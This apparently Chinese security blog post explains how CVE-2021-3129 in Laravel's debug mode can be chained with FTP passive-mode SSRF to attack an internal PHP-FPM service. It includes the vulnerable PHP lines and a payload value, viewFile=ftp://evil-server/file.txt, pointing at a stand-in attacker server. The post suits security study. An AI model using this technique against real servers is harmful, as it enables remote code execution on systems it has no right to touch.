 ```yaml
---
title: ftp被动模式eg
date: 2023-08-28 22:56:02
categories:
- 网络安全
tags:
- web 
description: |
    如题
---
```


## 活学活用

### Laravel Debug mode && FTP SSRF to RCE

Laravel 是一套简洁、开源的 PHP Web 开发框架，旨在实现 Web 软件的 MVC 架构。

2021 年 01 月 12 日，Laravel被披露存在一个远程代码执行漏洞（CVE-2021-3129）。当 Laravel 开启了 Debug 模式时，由于 Laravel 自带的 Ignition 组件对 `file_get_contents()` 和 `file_put_contents()` 函数的不安全使用，攻击者可以通过发起恶意请求，构造恶意 Log 文件等方式触发 Phar 反序列化，最终造成远程代码执行：

- vendor/facade/ignition/src/Solutions/MakeViewVariableOptionalSolution.php

![img](https://p1.ssl.qhimg.com/t01abad478292533a15.png)

该漏洞可以简化为以下两行：

```php
$contents = file_get_contents($parameters['viewFile']);
file_put_contents($parameters['viewFile'], $contents);
```

可以看到这里主要功能点是：读取一个给定的路径 `$parameters['viewFile']`，并替换读取到的内容中的 `$variableName` 为`$variableName ?? ''`，之后写回文件中 `$parameters['viewFile']`，这相当于什么都没有做！

该漏洞的预期利用方法是重写日志文件然后使用 `phar://` 协议去触发 Phar 反序列化并实现 RCE。但有时候由于某些原因，我们无法是通过该方法进行 RCE，这时候我们便可以考虑本篇文章所讲的知识点，利用 FTP SSRF 攻击内网应用，从而寻找 RCE 的办法。

由于我们可以运行 `file_get_contents` 来查找任何东西，因此，可以运用 SSRF 常用的姿势，通过发送 HTTP 请求来扫描常用端口。假设此时我们发现目标正在监听 9000 端口，则很有可能目标主机上正在运行着 PHP-FPM，我们可以进一步利用该漏洞来攻击 PHP-FPM。

众所周知，如果我们能向 PHP-FPM 服务发送一个任意的二进制数据包，就可以在机器上执行代码。这种技术经常与 `gopher://` 协议结合使用，curl支持 `gopher://` 协议，但 `file_get_contents` 和 `file_put_contents` 却不支持。

另一个已知的允许通过 TCP 发送二进制数据包的协议就是我们本文所讲的 FTP，更准确的说是该协议的被动模式，即：如果一个客户端试图从  FTP 服务器上读取一个文件（或写入），服务器会通知客户端将文件的内容读取（或写）到一个特定的 IP  和端口上。而且，这里对这些IP和端口没有进行必要的限制。例如，服务器可以告诉客户端连接到自己的某一个端口，如果它愿意的话。

现在，由于该 laravel 漏洞中 `file_get_contents` 和 `file_put_contents` 这两个函数在作祟，如果我们尝试使用 `viewFile=ftp://evil-server/file.txt` 来利用这个漏洞，会发生以下情况：

- `file_get_contents` 连接到我们的FTP服务器，并下载 file.txt。
- `file_put_contents` 连接到我们的FTP服务器，并将其上传回 file.txt。

现在，你可能已经知道这是怎么回事：我们将使用 FTP 协议的被动模式让 `file_get_contents` 在我们的服务器上下载一个文件，当它试图使用 `file_put_contents` 把它上传回去时，我们将告诉它把文件发送到 127.0.0.1:9000。
